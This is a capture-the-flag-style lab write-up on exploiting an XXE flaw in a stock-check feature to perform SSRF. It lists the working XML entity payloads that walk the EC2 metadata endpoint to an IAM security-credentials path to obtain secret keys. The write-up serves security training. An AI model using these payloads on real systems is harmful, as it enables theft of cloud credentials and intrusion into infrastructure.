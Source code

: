 # Exploiting XXE to perform SSRF attacks

## Lab #2: Exploiting XXE to perform SSRF attacks

> This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
> 
> The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.
> 
> To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint. 

Check stock request

![ccae14b8bd448b6116d31af34a82b589.png](_resources/baa0397e323241c5b9f817cd7adf3899.png)

Injecting XXE

```
<!DOCTYPE notused [ <!ENTITY ssrf SYSTEM "http://169.254.169.254/">] >
```

Returns an error message "Invalid product ID: latest"

![9ef4b9f342c2e19b3e0c7b97f1b038f3.png](_resources/00bf0f9b225143b3a6f359eaeabf2dcd.png)

Adding a random path to the url, returns non zero code.

![9c72dcfd0cd2c34591a1f8a5c527b547.png](_resources/d7b8ff7f475b46e389f48a1715e6aab9.png)

Adding `/latest` as new path returns another error message "Invalid product ID: meta-data". I can assume the first payload return a path.

```
<!DOCTYPE notused [ <!ENTITY ssrf SYSTEM "http://169.254.169.254/latest/">] >
```

Combining the path to `/latest/meta-data/`
```
<!DOCTYPE notused [ <!ENTITY ssrf SYSTEM "http://169.254.169.254/latest/meta-data">] >
```

![d4d7ab35e037c1ceccb12f4f7fead4e5.png](_resources/d7ec0e8d754f4b21a8e86d87a1693d60.png)


It ends up with:

```
<!DOCTYPE notused [ <!ENTITY ssrf SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">] >
```

![21475d841258379c7dbf1e7621612bd9.png](_resources/7120752290f1488f801df57ed4ee2d8d.png)